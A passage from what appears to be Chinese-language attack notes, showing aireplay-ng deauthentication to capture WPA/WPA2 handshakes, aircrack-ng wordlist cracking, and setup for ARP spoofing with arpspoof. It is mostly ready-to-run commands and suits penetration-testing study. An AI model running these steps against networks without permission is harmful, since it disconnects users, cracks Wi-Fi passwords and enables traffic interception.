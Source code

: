 这里需要持续抓包，直到抓取到客户端与AP的握手包，也就是客户端与AP重新建立连接时发送的数据包，从中可以进行**离线爆破**并找到密码。

## 5. 进行攻击

如果你想要捕获 WPA/WPA2 握手包，你可以执行以下步骤：

使用 `aireplay-ng` 注入数据包，促使客户端重新连接并获取握手包：

```bash
sudo aireplay-ng --deauth 10 -a <target_bssid> -c <client_mac> <monitor_interface>
```

- `10`：表示发送 10 个 deauthentication 数据包。
- `<client_mac>`：要断开连接的客户端的 MAC 地址（可选，如果不想指定，可以省略）。
- `<target_bssid>`：目标网络的 BSSID。

## 6. 破解密码

使用 `aircrack-ng` 破解捕获的握手数据包：

```
sudo aircrack-ng <output_file>.cap
```

这里，`<output_file>.cap` 是捕获的数据包文件名。

如果你有字典文件，可以指定它进行破解：

```bash
sudo aircrack-ng -w <wordlist_file> <output_file>.cap
```

- `<wordlist_file>`：包含潜在密码的字典文件路径。

# Arp欺骗

## arpspoof

`arpspoof` 是 `dsniff` 工具包中的一个实用工具。它可以轻松地进行 ARP 欺骗。

### 安装 dsniff

如果 `dsniff` 未安装，可以通过以下命令进行安装：

```
sudo apt update
sudo apt install dsniff
```

### 使用 `arpspoof`

1. **启用 IP 转发**
   
   在进行 ARP 欺骗之前，需要启用 IP 转发，以便将流量转发到受害者：
   
   ```
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
   # 1 为启用转发，0为禁止转发，会导致断网
   ```
